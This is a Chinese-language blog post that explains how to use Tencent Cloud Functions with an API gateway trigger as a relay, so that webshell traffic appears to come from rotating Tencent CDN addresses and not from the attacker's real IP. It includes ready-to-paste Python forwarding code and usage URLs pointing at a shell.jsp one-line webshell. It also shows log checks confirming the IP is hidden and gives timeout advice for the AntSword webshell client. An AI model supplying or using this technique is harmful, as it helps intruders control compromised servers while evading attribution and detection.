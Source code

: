 # 利用云函数隐藏Webshell真实IP



> 腾讯云自带CDN，我们可以通过腾讯云函数来转发我们的Webshell请求，从而达到隐藏真实IP的目的

## 创建云函数
找到云函数，使用自定义模板
![20220613192232](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613192232.png)

![20220613192325](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613192325.png)

把下面的代码复制到index.py中
```python
# -*- coding: utf8 -*-
import requests
import json
def geturl(urlstr):
    jurlstr = json.dumps(urlstr)
    dict_url = json.loads(jurlstr)
    return dict_url['u']
def main_handler(event, context):
    url = geturl(event['queryString'])
    postdata = event['body']
    headers=event['headers']
    resp=requests.post(url,data=postdata,headers=headers,verify=False)
    response={
        "isBase64Encoded": False,
        "statusCode": 200,
        "headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
        "body": resp.text
    }
    return response

```
> 注意，运行环境要选Ppython3.6，不然3.7的话得手动上传第三方库(感觉我的同事，不然我一直在坑里出不来呢)


![20220613192414](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613192414.png)


部署成功后，点击触发管理->创建触发器：
![20220613192526](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613192526.png)

这里需要选择API网关触发：
![20220613192618](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613192618.png)


创建完成后，下图可以看到我们的访问路径：
![20220613192747](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613192747.png)


## 使用方法
然后在我们的访问路径后面增加`?u=webshell一句话木马`的地址即可
例如：
```text
https://sxxxxxxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/helloworld-11?u=http://xxxx/shell.jsp

```



使用云函数之前，可以看到我的真实IP：
我这里使用`tail -f xxx.log`来监控的日志，也可以wireshark抓包
访问：`http://10.80.20.57:8080/test/shell.jsp`
![20220614112844](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614112844.png)
![20220614112807](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614112807.png)

使用云函数之后，
访问：`https://serxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/forwarded?u=http://xxx/shell.jsp`
![20220614132635](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614132635.png)

然后我们查看日志：显示的是腾讯云函数CDN的地址

![20220614132911](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614132911.png)
可以看到IP地址是随机的：
![20220614132852](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614132852.png)

成功达到目的



## 补充
防止webshell的掉线行为，修改一下超时设置，可以配置为60s  
最好在【函数管理】 -> 【函数配置】里面，最好把执行超时时间设置成和蚁剑里面的超时时间一样或者更长
![20220613193021](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220613193021.png)









---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8Fwebshell%E7%9C%9F%E5%AE%9Eip/  

